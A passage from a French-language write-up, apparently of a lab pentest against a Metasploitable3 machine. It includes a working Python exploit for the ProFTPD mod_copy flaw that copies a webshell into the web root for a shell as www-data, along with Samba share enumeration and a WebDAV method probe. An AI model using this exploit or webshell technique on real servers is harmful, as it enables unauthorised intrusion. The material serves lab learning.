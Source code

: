 On change ensuite l'exploit FTP pour qu'il copie le webshell depuis le dossier de Leia vers la racine web :

```python
def exploit(client, target):
    client.connect((target,21)) # Connecting to the target server
    banner = client.recv(74)
    print(banner.decode())
    client.send(b'site cpfr /home/leia_organa/shell.php\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto /var/www/html/test.php\r\n')
    print(client.recv(1024).decode())
    client.close()
    print('Exploit Completed')
```

On obtiendra alors un shell en tant que `ww-data`.

### Samba

Rien trouvé du côté de Samba. On peut lister les shares mais on ne peut pas y accéder même avec les identifiants.

```console
$ smbclient -U "" -N -L //192.168.1.8

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        public          Disk      WWW
        IPC$            IPC       IPC Service (metasploitable3-ub1404 server (Samba, Ubuntu))
        canonts5300series Printer   Canon TS5300 with driver Canon TS5300 series Ver.5.90 @ linux-v
SMB1 disabled -- no workgroup available
```

### WebDAV

Les scripts Nmap ont trouvé un dossier `uploads` sur le port 80 malgré son absence dans le listing Apache.

Vu le nom du fichier, on va lister les méthodes autorisées :

```console
$ curl -XOPTIONS -D- http://192.168.1.8/uploads/
HTTP/1.1 200 OK
Date: Thu, 05 Jun 2025 13:39:39 GMT
Server: Apache/2.4.7 (Ubuntu)
DAV: 1,2
DAV: <http://apache.org/dav/propset/fs/1>
MS-Author-Via: DAV
Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK
Content-Length: 0
Content-Type: httpd/unix-directory
```
